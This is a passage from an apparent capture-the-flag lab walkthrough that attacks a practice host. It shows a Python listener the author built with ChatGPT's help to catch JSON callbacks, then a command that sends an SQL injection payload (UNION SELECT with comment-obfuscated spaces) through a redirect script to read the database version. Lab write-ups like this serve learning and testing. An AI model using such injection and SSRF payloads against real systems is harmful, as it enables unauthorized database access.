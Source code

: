 Looks like the third one in is our target.


Now let's start our enumeration directly on our target

To catch the response I decide to play around with ChtGPT and asked to create a python 3 script for me
> write a python3 http server that will check if the response_body has JSON and if it does parse and output the JSON in pretty format to the console

After a little modification I came up with:

```python
import json
from http.server import HTTPServer, BaseHTTPRequestHandler

class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        print("received a post request")
        # Read the request body
        content_length = int(self.headers['Content-Length'])
        request_body = self.rfile.read(content_length)

        # Parse the request body as JSON
        try:
            data = json.loads(request_body)
        except ValueError:
            self.send_response(400)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(b'Invalid JSON')
            return

        # Output the parsed JSON to the console
        print(json.dumps(data, indent=4, sort_keys=True))

        # Send a response to the client
        self.send_response(200)
        self.send_header('Content-Type', 'text/plain')
        self.end_headers()
        self.wfile.write(b'Request received')

httpd = HTTPServer(('0.0.0.0', 1338), RequestHandler)
httpd.serve_forever()
```

```shell
python3 ./server.py
```

Let's attempt to get the version of the database.

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(select/**/@@version,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```
We get an error back saying that the site is not up.
